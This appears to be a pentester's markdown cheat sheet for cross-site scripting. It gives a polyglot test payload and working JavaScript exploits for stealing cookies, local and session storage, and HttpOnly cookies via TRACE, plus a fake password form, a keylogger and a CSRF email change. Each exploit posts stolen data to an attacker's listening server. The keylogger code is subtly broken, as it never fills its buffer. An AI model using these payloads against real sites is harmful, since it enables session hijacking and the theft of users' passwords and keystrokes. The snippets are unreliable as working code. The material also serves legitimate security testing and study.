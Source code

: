 # XSS

List of exploitable JS functions: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

List of XSS payloads: [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all)

Polyglot field test

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Exploits

### Cookie Stealing

Create an instance of server listening on a public port. After sending the following payload to the target you will see a request to your server containing the session cookies

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

### Local Storage Stealing

Same as Cookie Stealing but send the content of session or local storage to the listening server. The content of the storage has to be converted to JSON format

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:JSON.stringify(localStorage)    //or sessionStorage
});
</script>
```

Obtain session from session storage

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:sessionStorage.getItem('sessionID') 
});
</script>
```

### Cross Trace Scripting

By default cookies with the HTTPOnly attribute set to true are invisible to browser scripts because they are sent only through GET or POST HTTP(S) requests. In order to obtain these cookie we make the user send a TRACE request to the server&#x20;

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.withCredentials = true;
req.open('TRACE','<URL>',true);        #putting \r\nTRACE instead of TRACE might bypass some option filters
req.send();
function handleResponse() {
    fetch('<listening server>', {
            method: 'POST',
            mode: 'no-cors',
            body: this.getAllResponseHeaders()
        });
};
</script>
```

### Password Stealing

Create an instance of server listening on a public port. Send the following payload to create a fake form on the target server. When the victim types the password a request will be sent to your server containing the password

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('<listening server>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Keylogging

The following script sends the keys pressed by the user to the listening server

```
var keys = "";
document.onkeypress = function(e){
    var get = window.event ? event : e;
    var key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    key += key;
}

window.setInterval(function(){
    if(keys && keys !== ""){
        var path = encodeURI("<listening server>?keys="+keys);
        new Image().src = path;
        keys = "";
    }
},<log interval ms>);
```

### CSRF

Use the following payload to send a request using AJAX to a page of the application. Can be used for instance to request  password reset for the user

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','<URL>',true);
req.send();
function handleResponse() {
    var target = new XMLHttpRequest();
    target .open('post', '/my-account/change-email', true);
    target .send(<body>)
};
</script>
```

